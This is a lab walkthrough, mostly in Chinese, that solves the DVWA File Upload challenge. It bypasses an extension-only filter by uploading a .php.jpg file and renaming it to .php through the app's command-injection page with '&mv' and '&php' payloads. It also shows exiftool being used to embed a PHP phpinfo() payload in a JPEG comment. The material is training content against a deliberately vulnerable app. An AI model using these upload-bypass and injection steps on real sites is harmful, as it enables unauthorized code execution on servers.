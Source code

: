 # File Upload

> Objective
> Execute any PHP function of your choosing on the target system (such as [phpinfo()](https://secure.php.net/manual/en/function.phpinfo.php)
> or [system()](https://secure.php.net/manual/en/function.system.php)) thanks to this file upload vulnerability.

### 觀察

試著上傳 *.php 檔案，這次它會檢查副檔名，限定 `jpg` or `png`

```
yo.php
yo.php.php
```

```
Your image was not uploaded. We can only accept JPEG or PNG images.
```

### 更換副檔名上傳後搭配 command injection 執行檔案

那我們就給它 jpg 吧，上傳後再想辦法把副檔名改回來，還好沒有檢查的很嚴格

```
yo.php.jpg
```

```
../../hackable/uploads/yo.php.jpg succesfully uploaded!
```

回到 command injection 的頁面，確認檔案有上傳成功

```
&ls ../../hackable/uploads
```

```
dvwa_email.png
yo.php.jpg
```

接著只要將副檔名從 `jpg` 修改回 `php` 即可

```
&mv ../../hackable/uploads/yo.php.jpg ../../hackable/uploads/yo.php
```

```
&ls ../../hackable/uploads
```

```
dvwa_email.png
yo.php
```

最後直接在這頁執行也可從上傳的資料路徑夾執行我們上傳的檔案

```
&php ../../hackable/uploads/yo.php
```

```
http://localhost:8086/hackable/uploads/yo.php
```

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/0fa61ad0-ae2d-4654-b092-f881fc3ff75d/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220215%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220215T171113Z&X-Amz-Expires=86400&X-Amz-Signature=00538e46cad98457de7077e0418d9c076893d65406a301c447e278d1f72d8b6e&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/b8b021c5-5525-4870-a47e-4b11d8c74a0f/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220215%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220215T171117Z&X-Amz-Expires=86400&X-Amz-Signature=8191eee2306fd26b8c1bc42ad96f84f37e05f41234d34661c8730c5c75534235&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

---
## Update February 19, 2022

### 修正: executable image

### 使用 `exiftool` 將惡意內容寫入要上傳的圖片，然後再更改檔名上傳即可，這個方式比較好

```bash
exiftool -Comment="<?php phpinfo(); __halt_compiler(); ?>" demo-upload.jpg
```

```php
mv demo-upload.jpg demo-upload.jpg.php
```
```php
http://dvwa.localtest/hackable/uploads/demo-upload.jpg.php
```
![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/300dad9f-b7b3-4615-a49c-a1dc9d6f1283/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220219%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220219T084448Z&X-Amz-Expires=86400&X-Amz-Signature=09d70488a1a19106326372efe8f66ae540e8507f5ff0e5648b8816ddd43dd2d1&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)
